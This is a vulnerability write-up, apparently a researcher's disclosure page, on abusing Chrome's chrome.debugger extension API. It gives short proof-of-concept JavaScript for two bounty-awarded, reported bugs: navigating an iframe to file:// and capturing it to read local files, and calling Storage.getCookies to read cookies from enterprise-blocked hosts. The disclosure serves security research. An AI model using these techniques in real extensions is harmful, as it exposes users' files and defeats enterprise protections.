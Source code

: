 ```yaml
---
title: Abusing the chrome.debugger extension API
---
```


The chrome extension `chrome.debugger` <https://developer.chrome.com/docs/extensions/reference/api/debugger> API implies `<all_urls>` permission but should not grant access to the users file system or bypass enterprise policies.  
However its a very powerful by design with lots of features <https://chromedevtools.github.io/devtools-protocol/>

# 'Page.navigate' could navigate iframes to file:// when not enabled (Awarded $3000)

Extensions with both `pageCapture` and `debugger` permissions could read local file contents.
This is because its possible to use `Page.navigate` to navigate an iframe to `file://` when "Allow access to file URLs" is disabled exposing the files contents to the `pageCapture` API.

```js
chrome.debugger.attach({tabId: <TARGET>}, '1.3', console.log);
chrome.debugger.sendCommand({tabId: <TARGET>}, 'Page.navigate', {frameId: <FRAME ID AS SEEN FROM EVENTS), url: 'file:///d:/demo.txt'}, console.log);
chrome.pageCapture.saveAsMHTML({tabId: 800972627}, console.log);
```

This issue was fixed in <https://issues.chromium.org/40060173>

# Features bypass the runtime_blocked_hosts cookie protection (Awarded $3000)

Extensions where able to get cookies from a runtime_blocked_host using the chrome.debugger API via `Storage.getCookies` <https://chromedevtools.github.io/devtools-protocol/tot/Storage/#method-getCookies> and other protocol features.

## Setup

- Add host to runtime_blocked_hosts <https://chromeenterprise.google/policies/?policy=ExtensionSettings>
- For windows 10 using registry at `HKEY_CURRENT_USER\SOFTWARE\Policies\Google\Chrome` create string with name `ExtensionSettings` and content of `{ "*": { "runtime_blocked_hosts": [ "*://example.org" ] } }`
- Policy should be listed at `chrome://policy/` may need to reload.
- Create cookie at <https://example.org> like `document.cookie = 'foo=foo';`

## Exploit

Using a browser extension with the debugger permission.

- Get `tabId` like with `chrome.tabs.query({active: true});`
- Attach to a tab with `await chrome.debugger.attach(target, '1.3');`
- Run `Storage.getCookies` with `await chrome.debugger.sendCommand({tabId: <tabId>}, 'Storage.getCookies');` it should contain the cookie from the runtime blocked host.
